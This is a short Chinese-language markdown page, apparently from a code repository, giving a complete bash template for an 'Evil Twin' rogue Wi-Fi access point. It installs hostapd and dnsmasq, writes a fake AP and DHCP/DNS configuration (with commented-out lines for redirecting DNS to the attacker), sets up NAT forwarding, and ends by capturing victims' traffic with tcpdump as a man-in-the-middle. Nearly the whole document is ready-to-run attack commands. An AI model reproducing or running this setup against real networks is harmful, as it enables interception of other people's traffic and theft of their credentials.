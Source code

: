 ## Evil Twin 配置模板

如果启动失败，则尝试 `airmon-ng check kill` 后再次启动

```bash
# 安装AP配置管理工具：hostapd 和 简易DNS&DHCP服务器：dnsmasq
apt-get update && apt-get install -y hostapd dnsmasq

# 创建并编辑 /etc/hostapd/hostapd.conf，内容如下实例所示
cat << EOF > /etc/hostapd/hostapd.conf
ssid=just_a_joke
wpa_passphrase=JokePassword
interface=wlan0
auth_algs=3
channel=6
driver=nl80211
hw_mode=g
logger_stdout=-1
logger_stdout_level=2
max_num_sta=5
rsn_pairwise=CCMP
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
EOF

# 备份/etc/dnsmasq.conf
cp /etc/dnsmasq.conf /etc/dnsmasq.conf.orig

# 使用简化版dnsmasq配置文件内容
cat << EOF > /etc/dnsmasq.conf
log-facility=/var/log/dnsmasq.log
#address=/#/10.10.10.1
#address=/google.com/10.10.10.1
interface=wlan0
dhcp-range=10.10.10.10,10.10.10.250,12h
dhcp-option=3,10.10.10.1
dhcp-option=6,10.10.10.1
#no-resolv
log-queries
EOF

# 启动dnsmasq服务
service dnsmasq start

# 启用无线网卡
ifconfig wlan0 up
ifconfig wlan0 10.10.10.1/24

# 配置防火墙将wlan0的流量转发到有线网卡
iptables -t nat -F
iptables -F
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT

# 开启Linux内核的IPv4数据转发功能
echo '1' > /proc/sys/net/ipv4/ip_forward

# 启动hostapd（调试模式启动）
hostapd -d /etc/hostapd/hostapd.conf

# 用抓包器开始对桥接网卡mitm进行抓包
tcpdump -i wlan0 -w wlan0.pcap
```